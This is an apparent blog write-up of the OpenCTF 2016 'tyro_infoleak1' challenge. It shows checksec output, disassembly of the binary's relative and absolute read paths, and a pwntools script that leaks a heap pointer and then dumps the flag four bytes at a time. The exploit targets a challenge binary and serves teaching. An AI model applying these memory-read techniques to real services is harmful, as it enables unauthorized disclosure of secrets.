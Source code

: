 ```yaml
---
layout: post
title: OpenCTF 2016 - Tyro Infoleak1
subtitle: 
---
```


This is a writeup for **tyro_infoleak1** which was the first part of a 3 part challenge involving, as the challenge name suggests, info leaks. 

{% highlight text %}
Baby's first infoleak (do you even really need the binary?) (https://en.wikipedia.org/wiki/Information_leakage)
Server: 172.31.1.36:1616
Binary: 172.31.0.10/tyro_infoleak1_bdc3f08dab986b30317b0937a096d794
{% endhighlight %}

Ignoring the challenge description, we can download the binary and run checksec on it to determine which memory protections it is compiled with.

{% highlight bash %}
$ checksec tyro_infoleak1
[*] 'openctf16/tyro_infoleak1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
{% endhighlight %}

When we run the program, we are presented with the following  

{% highlight text %}
$ ./tyro_infoleak1 
OpenCTF tyro info leak 2

ASLR is on, the binary is PIE
Can you read the flag?
1)relative read
2)absolute read
{% endhighlight %}

Basically, this program provides us with 2 functions: the ability perform a relative read, and the ability to perform an absolute read. 

## Relative Read

{% highlight text %}
.text:00000A46                 mov     dword ptr [esp], offset Offset ; "Offset: "
.text:00000A4D                 call    printf
.text:00000A52                 lea     eax, [esp+14h]
.text:00000A56                 mov     [esp+4], eax
.text:00000A5A                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000A61                 call    __isoc99_scanf  ; scanf("%x", &i);
.text:00000A66                 lea     edx, [esp+14h]
.text:00000A6A                 mov     eax, [esp+14h]
.text:00000A6E                 add     eax, edx        ; eax = &i+i
.text:00000A70                 mov     [esp+14h], eax
.text:00000A74                 mov     eax, [esp+14h]
.text:00000A78                 mov     eax, [eax]
.text:00000A7A                 mov     [esp+4], eax
.text:00000A7E                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000A85                 call    printf          ; printf("%p\n", *(&i+i))
.text:00000A8A                 jmp     short loc_AE5
{% endhighlight %}

All this basic block does is ask the user to specify an offset, which it uses to calculate the address located at that offset from a local variable, `i`, and prints out 4 bytes of whatever data is stored there. 


## Absolute Read

{% highlight text %}
.text:00000A8C loc_A8C:                                ; CODE XREF: main+F9j
.text:00000A8C                 mov     eax, [esp+14h]
.text:00000A90                 cmp     eax, 2
.text:00000A93                 jnz     short loc_ACD
.text:00000A95                 mov     dword ptr [esp], offset aAbsoluteAddres ; "Absolute address to read from: "
.text:00000A9C                 call    printf
.text:00000AA1                 lea     eax, [esp+14h]
.text:00000AA5                 mov     [esp+4], eax
.text:00000AA9                 mov     dword ptr [esp], offset fmtstr_x ; "%x"
.text:00000AB0                 call    __isoc99_scanf
.text:00000AB5                 mov     eax, [esp+14h]
.text:00000AB9                 mov     eax, [eax]
.text:00000ABB                 mov     [esp+4], eax
.text:00000ABF                 mov     dword ptr [esp], offset fmtstr_p ; "%p\n"
.text:00000AC6                 call    printf
.text:00000ACB                 jmp     short loc_AE5
.text:00000ACD ; ---------------------------------------------------------------------------
.text:00000ACD
.text:00000ACD loc_ACD:                                ; CODE XREF: main+148j
.text:00000ACD                 mov     dword ptr [esp], offset aWat ; "wat!"
.text:00000AD4                 call    puts
.text:00000AD9                 mov     dword ptr [esp], 0 ; status
.text:00000AE0                 call    exit
{% endhighlight %}

The Absolute Read code path simply asks the user to specify an address to read from and prints 4 bytes of whatever data is stored at the specified address.   

So, we have both a 4-byte relative infoleak primitive as well as a 4-byte absolute infoleak primitive. 

If we take a look at the preceding initialization code, we can see how we can leverage these two primitives to leak the contents of the flag.

## Initialization Flow

{% highlight text %}
.text:0000094B                 push    ebp
.text:0000094C                 mov     ebp, esp
.text:0000094E                 and     esp, 0FFFFFFF0h
.text:00000951                 sub     esp, 20h
.text:00000954                 mov     dword ptr [esp], 100h ; size
.text:0000095B                 call    malloc
.text:00000960                 mov     [esp+18h], eax
.text:00000964                 mov     dword ptr [esp], 1Eh ; seconds
.text:0000096B                 call    alarm
.text:00000970                 mov     eax, ds:stdin
.text:00000975                 mov     dword ptr [esp+4], 0 ; buf
.text:0000097D                 mov     [esp], eax      ; stream
.text:00000980                 call    setbuf
.text:00000985                 mov     eax, ds:stdout
.text:0000098A                 mov     dword ptr [esp+4], 0 ; buf
.text:00000992                 mov     [esp], eax      ; stream
.text:00000995                 call    setbuf
.text:0000099A                 mov     dword ptr [esp+4], 0 ; oflag
.text:000009A2                 mov     dword ptr [esp], offset file ; "/home/challenge/flag"
.text:000009A9                 call    open
.text:000009AE                 mov     [esp+1Ch], eax
.text:000009B2                 cmp     dword ptr [esp+1Ch], 0FFFFFFFFh
.text:000009B7                 jnz     short loc_9D1
.text:000009B9                 mov     dword ptr [esp], offset s ; "Can't open flag"
.text:000009C0                 call    puts
.text:000009C5                 mov     dword ptr [esp], 0 ; status
.text:000009CC                 call    exit
.text:000009D1 ; ---------------------------------------------------------------------------
.text:000009D1
.text:000009D1 loc_9D1:                                ; CODE XREF: main+6Cj
.text:000009D1                 mov     dword ptr [esp+8], 100h ; nbytes
.text:000009D9                 mov     eax, [esp+18h]
.text:000009DD                 mov     [esp+4], eax    ; buf
.text:000009E1                 mov     eax, [esp+1Ch]
.text:000009E5                 mov     [esp], eax      ; fd
.text:000009E8                 call    read
.text:000009ED                 mov     eax, [esp+1Ch]
.text:000009F1                 mov     [esp], eax      ; fd
.text:000009F4                 call    close
.text:000009F9                 mov     dword ptr [esp], offset aOpenctfTyroInf ; "OpenCTF tyro info leak 2\n"
.text:00000A00                 call    puts
.text:00000A05                 mov     dword ptr [esp], offset aAslrIsOnTheBin ; "ASLR is on, the binary is PIE"
.text:00000A0C                 call    puts
.text:00000A11                 mov     dword ptr [esp], offset aCanYouReadTheF ; "Can you read the flag?"
.text:00000A18                 call    puts
{% endhighlight %}

We can see that when the function is initialized, a chunk of memory is requested and allocated on the heap via `malloc(0x100)`, which is subsequently used to store the contents of the flag after calling `read()`. 

We can use our relative infoleak primitive to first, leak the address of the `malloc()`'d heap chunk, and then use our absolute infoleak primitive to leak the contents of the flag 4 bytes at a time. The following script achieves this.

## Solution 

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def relative_read():
        r.sendline("1")
        r.recvuntil(": ")
        r.sendline("4")
        return int(r.recv(10),0)

def absolute_read(flag_loc):
        r.sendline("2")
        r.recvuntil(": ")
        r.sendline(str(flag_loc))
        return int(r.recvline(10),0)

def exploit(r):
        r.recvuntil("2)absolute read\n")
        flag_loc = relative_read()

        flag=""

        while(1):
                r.recvuntil("2)absolute read\n")
                try:
                        flag+=pack(absolute_read(hex(flag_loc)),32, 'big', True)
                        flag_loc+=4
                except:
                        print flag
                        break
        #r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/openctf16/tyro_infoleak1'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
